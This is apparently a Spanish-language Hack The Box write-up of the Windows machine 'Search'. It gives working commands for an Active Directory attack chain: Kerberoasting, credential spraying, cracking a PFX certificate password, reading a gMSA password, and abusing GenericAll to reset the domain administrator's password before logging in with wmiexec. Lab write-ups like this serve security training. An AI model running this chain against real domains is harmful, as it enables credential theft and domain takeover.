 ```yaml
---
title: Search
date: 2022-07-31 13:25:30 +/-TTTT
categories: [HTB MACHINES, Windows]
tags: [bloodhound, getuserspns, pfx, gmsapassword, genericall, scriptblock]     # TAG names should always be lowercase
---
```


Aqui pudimos obtener unas credenciales en la página web y mediante rcp pudimos obtener más usuarios

```shell 
rpcclient -U '' 10.10.11.129 -N
```

Usamos `bloodhound.py` para recolectar información sobre los usuarios y privilegios

```shell 
bloodhound.py -u "usuario" -p "contraseña" -d "search.htb" -ns 10.10.11.129 -c All 
```
Vemos por medio de bloodhound que hay un ususario kerberosteable procedemos a utilizar GetUserSPNs

```shell
GetUserSPNs serach/hope.sharp:IsolationIsKey? -request
```
Con la contraseña obtenida del hash, pudimos reutilizarla para el usuario edgar.jacobs, mediante smb encontramos un archivo xlsx, en este punto el archivo está protegido pero
al final es un archivo comprimido, por lo que utilizamos unzip y modificamos el archivo para que no pida contraseña. Al final comprimimos el archivo y podemos leer las contraseñas.

```shell
zip -r document.xlsx .
```

Con `crackmapexec` podemos utiizar el comando `--no-bruteforce` para que nos respeta las líneas de cada usuario con su contraseña

```shell
crackmapexec smb -u xlsxusers.txt -p password.txt -dc 10.10.11.129 --no-bruteforce --continue-on-success
```

Con el nuevo usuario pudimos ver que tiene una carpeta en Downloads con archivos `pfx` y `p12`, y con john obtenemos la contraseña del archivo, con esto podemos usarlo en nuestro navegador como certificado

```shell
pfx2john staff.pfx
```
En configuracion buscamos por certificados e importamos los archivos con las contraseñas.

>Un archivo con la extensión PFX indica un certificado en el formato PKCS#12; en él está guardado el certificado, el certificado Intermediate de la autoridad 
necesario para una credibilidad del certificado.
{: .prompt-info}

Adentro tenemos que el usuario tiene el privilegio de `readGMSApassword`

```shell

$gmsa = Get-AdServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties "msDS-ManagedPassword"

$mp = $gmsa.'msDS-ManagedPassword'

ConvertFrom-AdManagedPasswordBlob $mp
```

![imagen1](/assets/images/search1.jpg)

Pudimos almacenar la contraseña en una variable y así poder usarla para ejecutar `ScriptBlock`

```console
$passw = (ConvertFrom-AdManagedPasswordBlob $mp).SecureCurrentPassword

$cred = New-Object System.Management.Automation.PsCredential 'BIR-ADFS-GMSA',$passw

Invoke-Command -ComputerName localhost -Cred $cred -ScriptBlock {whoami}
```

El usario bir-afs-gmsa tiene el privilegio `Generic All`, entonces tenemos control de la cuenta del usuario administrador del dominio, por lo que podemos cambiarle la contraseña.

```console
Invoke-Command -ComputerName localhost -Cred $cred -ScriptBlock { net user Tristan.Davies guero123 }
```

Finalmente con `wmiexec` entramos con la nueva contraseña

```console
wmiexec.py search.htb/tristan.davies@10.10.11.129
```
![imagen1](/assets/images/search2.jpg)

